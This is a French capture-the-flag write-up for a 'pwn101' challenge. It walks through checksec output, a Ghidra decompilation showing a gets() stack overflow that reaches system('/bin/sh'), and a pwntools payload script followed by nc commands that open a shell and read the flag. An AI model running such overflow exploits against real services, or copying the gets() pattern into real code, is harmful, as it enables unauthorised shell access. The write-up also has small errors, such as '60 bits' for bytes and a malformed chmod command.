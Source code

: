 # PWN101 challenge

## basic check

checksec --file=pwn101-1644307211706.pwn101
RLEO : full releo
STACK CANARY : No canary found
NX : NX enabled
PIE : PIE enabled

> pas de protection canary donc on peut executer une attaque buffer overflow

## executer le fichier

chmod + pwn101-1644307211706.pwn101
./pwn101-1644307211706.pwn101

     ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani:
AAAAAAAAAAAAA
Nah bruh, you lied me :(
She did Tomato rice instead of briyani :/

## utiliser ghidra pour dessasembler le code

void main(void)

{
  char local_48 [60];
  int local_c;
  
  local_c = 0x539;
  setup();
  banner();
  puts(
      "Hello!, I am going to shopping.\nMy mom told me to buy some ingredients.\nUmmm.. But I have l ow memory capacity, So I forgot most of them.\nAnyway, she is preparing Briyani for lunch, Can  you help me to buy those items :D\n"
      );
  puts("Type the required ingredients to make briyani: ");
  gets(local_48);
  if (local_c == 0x539) {
    puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
                    /*WARNING: Subroutine does not return*/
    exit(0x539);
  }
  puts("Thanks, Here\'s a small gift for you <3");
  system("/bin/sh");
  return;
}

## resumé du main

Setup et affichage de bannière

Lit une chaîne utilisateur avec gets() dans une variable locale

Compare une variable locale initialisée à 1337

Si égal →affiche message erreur et quitte

Sinon →affiche message, exécute une commande shell via system()

## approche de l'exploit

Dans le code on va saisir une chaine avec la fonction gets () qui est une fonction vulnerable
donc on va preparer un payload de taille +> 60 bits pour reecrire une autre valeur dans la variable locale
local_c

from pwn import *
host = "adresse de la machine "
port = 9001

io = remote(host, port)
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB"
io.sendline(payload)
io.interactive()

## conexion au serveur a distance

nc @machine 9001
entrer le payload
un shell va s'ouvrir
ls
cat flag.txt
obtenir le flag
